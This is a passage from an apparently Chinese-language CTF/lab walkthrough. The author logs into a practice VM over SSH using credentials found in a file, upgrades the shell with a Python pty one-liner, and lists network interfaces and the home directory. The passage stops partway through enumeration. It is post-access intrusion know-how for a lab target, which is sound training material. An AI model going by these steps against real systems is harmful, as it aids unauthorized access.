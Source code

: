 ## 系统扫描

-   尝试通过在:remb.txt中获取的字符串来进行登陆shell

```shell
└─$ ssh first_stage@192.168.108.4
first_stage@192.168.108.4's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon May  8 19:03:47 UTC 2023

  System load:  0.0               Processes:             91
  Usage of /:   41.3% of 9.78GB   Users logged in:       0
  Memory usage: 54%               IP address for enp0s3: 192.168.108.4
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

23 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon May  8 18:58:50 2023 from 192.168.108.1
$ 

# 提升shell交互性
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
first_stage@mhz_c1f:~$ 

# 获得初始flag
first_stage@mhz_c1f:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:d9:6b:6d brd ff:ff:ff:ff:ff:ff
    inet 192.168.108.4/24 brd 192.168.108.255 scope global dynamic enp0s3
       valid_lft 80871sec preferred_lft 80871sec
    inet6 fe80::a00:27ff:fed9:6b6d/64 scope link 
       valid_lft forever preferred_lft forever
first_stage@mhz_c1f:~$ ls -lhia
total 860K
531710 drwxr-xr-x 6 first_stage first_stage 4.0K May  8 19:01 .
524290 drwxr-xr-x 4 root        root        4.0K Apr 24  2020 ..
534535 -rw------- 1 first_stage first_stage  951 May  8 19:03 .bash_history
531712 -rw-r--r-- 1 first_stage first_stage  220 Apr  4  2018 .bash_logout
531713 -rw-r--r-- 1 first_stage first_stage 3.7K Apr  4  2018 .bashrc
534520 drwx------ 2 first_stage first_stage 4.0K Apr 24  2020 .cache
534526 drwxr-x--- 3 first_stage first_stage 4.0K May  8 06:53 .config
534515 drwx------ 3 first_stage first_stage 4.0K May  8 06:53 .gnupg
```
